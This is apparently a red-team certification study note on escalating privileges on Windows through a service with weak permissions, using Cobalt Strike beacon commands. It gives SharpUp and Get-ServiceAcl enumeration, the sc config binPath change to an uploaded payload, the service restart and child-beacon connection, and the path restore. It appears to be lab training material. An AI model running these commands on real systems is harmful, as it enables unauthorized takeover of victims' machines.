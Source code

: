 The weak permissions are on the service, unlike [[Weak Service Binary Permissions]].


## 🖊️ Enumeration

1) Using SharpUP check for "modifiable" services

`beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices`

2) You then need to see which permissions are modifiable of the service, use this [powershell script](https://github.com/Sambal0x/tools/blob/master/Get-ServiceAcl.ps1)

`beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
`beacon> powershell Get-ServiceAcl -Name VulnService2 | select -expand Access`

You need to check the service rights (what can you do with it), and who has access to it (IdentityReference)

3) What you want to do is change the path of the service for another location where your payload is, but first validate the location of the service:

	`beacon> run sc qc VulnService2`

4) check the "binary path name", now change it to the location of your payload:

```
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\tcp-local_x64.svc.exe

beacon> run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
[SC] ChangeServiceConfig SUCCESS
```

LEAVE A BLANK SPACE AFTER THE EQUAL:
binPath= C:\...

That is necessary.

5) Recheck the path is now updated
6) Restart the service and connect to [[Raw TCP Listener]] beacon :
```
beacon> run sc stop VulnService2
beacon> run sc start VulnService2

beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```


## 📔 Restore Path

- Make sure if the original path had quotes, if it had you can restore it like this:

```
beacon> run sc config VulnService2 binPath= \""C:\Program Files\Vulnerable Services\Service 2.exe"\"
[SC] ChangeServiceConfig SUCCESS
```

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{10-02-2024}} 12:39
🏷️ tags: #redteam #crto 

---

